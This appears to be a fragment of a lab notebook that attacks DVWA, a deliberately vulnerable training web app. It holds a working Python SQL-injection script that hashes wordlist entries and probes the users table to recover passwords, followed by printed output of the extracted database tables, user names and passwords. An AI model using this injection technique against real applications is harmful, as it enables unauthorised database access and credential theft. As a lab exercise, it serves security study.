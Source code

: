 
```python
passwords_found = []
wordlist_password = open("wordlist/password.txt", 'r')
Lines = wordlist_password.readlines()
sql_start = "' OR '"
sql_end ="' IN (SELECT password FROM users ) -- -"


for line in Lines:
    string_hashed = hash_md5(line.strip())
    id_param = sql_start  + string_hashed + sql_end
    params = {
        'id': id_param,
        'Submit': 'Submit'
    }
    response = requests.get(url,params=params,cookies=cookies,headers=headers)
    if response.status_code == 200:
        print("[PASSWORD.FOUND] = ", line.strip())
        passwords_found.append(line.strip())

passwords_found
```

    [PASSWORD.FOUND] =  password
    [PASSWORD.FOUND] =  abc123
    [PASSWORD.FOUND] =  letmein
    [PASSWORD.FOUND] =  charley

    ['password', 'abc123', 'letmein', 'charley']



```python
print(" ---------- Database info --------- " )
print("Name of the database: ", db_name)
print("Database tables :", tables_found)

print("\n")
print(" ---------- Information retrieved from the users table --------- " )
print("first_name :\t", list_of_first_name)
print("last_name :\t", list_of_last_name)
print("user :\t\t", list_of_user)
print("password :\t", passwords_found)

```

     ---------- Database info --------- 
    Name of the database:  dvwa
    Database tables : ['users', 'User_', 'Users', 'guestbook']
    
    
     ---------- Information retrieved from the users table --------- 
    first_name :	 ['admin', 'Pablo', 'Gordon', 'hack', 'bob']
    last_name :	 ['admin', 'brown', 'smith', 'picasso', 'me']
    user :		 ['admin', 'Pablo']
    password :	 ['password', 'abc123', 'letmein', 'charley']

